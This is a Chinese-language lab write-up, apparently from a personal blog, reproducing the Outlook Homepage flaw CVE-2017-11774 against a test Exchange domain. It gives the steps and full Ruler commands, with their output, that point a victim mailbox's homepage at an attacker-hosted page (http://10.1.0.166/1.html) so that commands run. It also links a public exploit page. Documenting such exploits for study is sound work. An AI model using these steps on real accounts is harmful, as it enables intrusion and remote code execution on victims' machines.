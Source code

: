 
---
title: Outlook Homepage Vulner
date: 2018-05-30 19:28:00
categories:
   - 技术相关
tags:
   - 漏洞
   - Outlook homepage
   - 笔记
#summary_img: /images/material-xcx.png
---


## 0x00 环境介绍

域控制器 ： OWA2013DC - 10.1.0.100   域名：corp.contoso.com

Exchange服务器 ： OWA2013Server - 10.1.0.213    加入域

Kali ： 10.1.0.166   未加入域

虚拟机模式: hostonly

三台网关:10.1.0.100 

hosts: 10.1.0.213	corp.contoso.com	contoso.com		autodiscover.contoso.com


`CVE-2017-11774`

    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11774 

`Description`

    Microsoft Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 allow an attacker to execute arbitrary commands, due to how Microsoft Office handles objects in memory, aka "Microsoft Outlook Security Feature Bypass Vulnerability."

<!-- more -->

## 0x01 新建邮箱用户 (Exchange management shell)

New-Mailbox -Name 'crazy' -UserPrincipalName crazy@contoso.com

![new-mailbox](Outlook Homepage Vulner/new-mailbox.JPG)

会自动创建域用户 crazy

![new-mailbox](Outlook Homepage Vulner/new-mailbox2.JPG)

登陆 

    https://localhost/owa/auth/logon.aspx?replaceCurrent=1&reason=2&url=https%3a%2f%2flocalhost%2fecp%2f

==> ok
         


## 0x02 windows上新建一个mailbox

填入邮箱及密码
![add-mail](Outlook Homepage Vulner/add-mail.JPG)

## 0x03 触发homepage漏洞

    打开 crazy 邮箱 (outlook )
    -> 点击 inbox 并右键 Data File Properties 
      -> 写入 homepage内容 [outlookHomepageRCE](https://gist.githubusercontent.com/staaldraad/c7b857e9bd6fd332f6f1bd01a2160266/raw/16fb7bb5aac443f4541dd0557062445d128b9813/outlookHomepageRCE.html)
        -> crazy@corp.contoso.com ( 点击 inbox 弹出 notepad )
       
![homepage](Outlook Homepage Vulner/homepage1.JPG)


当然也可使用工具 Ruler ( kali )

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage add --url http://10.1.0.166/1.html
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Creating new endpoint
    [+] Verifying...
    [+] New endpoint set
    [+] Trying to force trigger

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage display
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Getting existing endpoint
    [+] Found endpoint: http://10.1.0.166/1.html
    [+] Webview is set as ENABLED
    
![kali-homepage](Outlook Homepage Vulner/homepage3.JPG)
       
通过这个漏洞,可以执行命令...
       
## 0x04 还有恶意规则漏洞 (Ruler工具)

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy display
        Password: 
        [+] Retrieving MAPI/HTTP info
        [+] Binding to RPC
        [+] Retrieving Rules
        [+] No Rules Found

## 0x05 注

    此漏洞要知道邮箱账号密码
    此漏洞只针对未打补丁的outlook客户端 ( Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 )

## 0x06 Reference

    https://github.com/sensepost/ruler/wiki/Rules
    https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/ 



